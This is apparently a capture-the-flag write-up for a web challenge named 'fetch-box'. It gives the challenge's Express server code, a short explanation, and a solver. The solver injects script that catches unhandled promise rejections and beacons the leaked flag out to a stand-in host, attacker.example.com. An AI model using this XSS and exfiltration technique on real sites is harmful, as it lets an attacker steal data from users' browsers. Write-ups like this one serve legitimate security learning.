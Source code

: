 Also, the CSP is `base-uri 'none'; frame-ancestors 'none'`.

```javascript title="web/index.js"
import express from "express";
import fs from "node:fs";

const html = fs.readFileSync("index.html", { encoding: "utf8" });

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "base-uri 'none'; frame-ancestors 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .get("/ping", (req, res) => res.type("text").send("pong"))
  .listen(3000);
```

### Solution

First of all, is there any way to cause an error when executing the `fetch`?

A simple way is to access a URL containing an authority:

- e.g. `http://foobar@fetch-box.asisctf.com:3000`

![](./img/fetch-box-02.png)

> Uncaught (in promise) TypeError: Failed to execute 'fetch' on 'Window': Request cannot be constructed from a URL that includes credentials: /ping?flag=%F0%9F%9A%A9

Then, an uncaught error occurs and the promise rejection is not handled. This means an `unhandledrejection` event is emitted:

- ref. https://developer.mozilla.org/en-US/docs/Web/API/Window/unhandledrejection_event

Since the error message includes the requested URL, you can get the `flag` value using `addEventListener("unhandledrejection", ...)`.

### Solver

```javascript
const CONNECTBACK_URL = "http://attacker.example.com";

const xss = `
window.addEventListener(
  "unhandledrejection",
  (event) => {
    navigator.sendBeacon("${CONNECTBACK_URL}", event.reason);
  },
  { once: true }
);
`.trim();

const url = `http://foobar@web:3000?${new URLSearchParams({ xss })}`;
// If you report this URL, you will get a flag.
```
